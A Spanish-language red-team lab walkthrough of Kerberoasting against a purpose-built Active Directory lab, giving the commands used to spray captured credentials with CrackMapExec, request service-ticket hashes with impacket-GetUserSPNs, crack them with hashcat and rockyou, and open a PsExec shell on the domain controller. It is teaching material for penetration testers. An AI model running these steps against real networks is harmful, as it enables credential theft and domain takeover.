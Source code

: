 ```yaml
---
description: >-
  Ataque que se aprovecha de la existencia de SPNs asociados a usuarios no
  generados por el equipo
---
```


# KERBEROASTING

## INTRODUCCIÓN

{% hint style="info" %}
Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado**
* **7. Convertir un usuario en Administrador local de los clientes.**
* **8. Generar carpetas compartidas con los administradores locales.**
{% endhint %}

### Esquema de trabajo

Vamos a explotar el siguiente esquema:

En un Directorio Activo hemos obtenido un acceso inicial con un usuario con bajos privilegios, por ejemplo, utilizando SMB Relay o NTLM Relay. \(vgarcia:Password2\).

Con este acceso inicial en mente vamos a tratar de crackear el Hash de un Ticket-Granting Service \(TGS\) expedido en nombre de un usuario que posee un SPN asociado.

{% hint style="info" %}
En este ataque explotamos la capacidad de todos y cada uno de los usuarios autenticados de un dominio de solicitar un Ticket-Granting Service.

Recordemos que este TGS se encuentra encriptado con el secreto del servicio al que queremos acceder. Si este servicio es un usuario con un SPN asociado \(un usuario que Active Directory entiende como un servicio\) entonces su secreto será su contraseña y por lo tanto, el Hash obtenido se podrá crackear si la contraseña no es muy robusta.
{% endhint %}

Para entender mejor estos conceptos puede ver:

{% page-ref page="../conceptos/conceptos-importantes-antes-de-continuar.md" %}

### Herramientas necesarias

#### CrackMapExec

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" caption="" %}

#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetUserSPNs**

{% embed url="https://github.com/SecureAuthCorp/impacket" caption="" %}

#### PowerSploit Toolkit <a id="powersploit-toolkit"></a>

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.

{% embed url="https://github.com/PowerShellMafia/PowerSploit" caption="" %}

#### Hashcat

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU.

{% embed url="https://github.com/hashcat/hashcat" caption="" %}

### Resumen

* Vamos a comprobar el alcance de nuestros credenciales capturados.
* Vamos a obtener TGS de los usuarios con SPNs asociados.
* Vamos a crackear el Hash capturado en el TGS.
* Vamos a comprobar el alcance de nuestros nuevos credenciales.
* Vamos a entrar en el DC.

## EXPLOIT

### 1. Comprobar alcance de credenciales

Como ya hemos dicho en la introducción, hemos conseguido unos credenciales en una fase preliminar y ya tenemos nuestro Foothold en la máquina.

`vgarcia:Password2`

Vamos a utilizar lo ya aprendido para comprobar el alcance de estos credenciales. Realizamos un Spraying en toda la red con estos credenciales:

`cme smb RED -u 'USUARIO' -p 'PASSWORD'`

![Vemos que el usuario es administrador solo en su propio terminal.](../../.gitbook/assets/kerberoasting1.png)

Sin embargo, aunque no tenga privilegios, este usuario puede solicitar TGS igual que cualquier otro usuario del dominio.

### 2. Obtener TGS de SPNs asociados a usuarios

A continuación aprovechando las funcionalidades de **impacket-GetUserSPNs** vamos a solicitar desde la cuenta del usuario que tenemos los TGS de los diferentes SPNs, a ver que encontramos.

`sudo echo "IP_DC <tab> hackpoc <tab> hackpoc.local >> /etc/hosts`

`sudo impacket-GetUserSPNs -request hackpoc.local/vgarcia:Password2`

![Hemos obtenido un Hash de un SPN.](../../.gitbook/assets/kerberoasting2%20%281%29.png)

### 3. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat \(por no utilizar siempre john\).

1. Cogemos el Hash que hemos obtenido y lo copiamos en un archivo hash.txt
2. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5tgs" -B 2` 
3. Utilizamos hashcat para crackear el hash. `hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

![Contrase&#xF1;a crackeada](../../.gitbook/assets/kerberoasting3.png)

Los credenciales son SVC-SQLService:MYpassword123\#

### 4. Comprobar alcance de credenciales

Volvemos a realizar el paso uno pero con los nuevos credenciales.

`cme smb RED -u 'USUARIO' -p 'PASSWORD'`

![&#xA1;Premio! Es un usuario Administrador de dominio](../../.gitbook/assets/kerberoasting4.png)

### 5. Shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

![Ahora si... &#xA1;Premio!](../../.gitbook/assets/kerberoasting5.png)

## REFERENCIAS

[https://en.hackndo.com/kerberoasting/](https://en.hackndo.com/kerberoasting/)  
[https://seguridad-ofensiva.com/blog/directorio-activo/kerberoasting/](https://seguridad-ofensiva.com/blog/directorio-activo/kerberoasting/)  
[https://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2](https://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2)

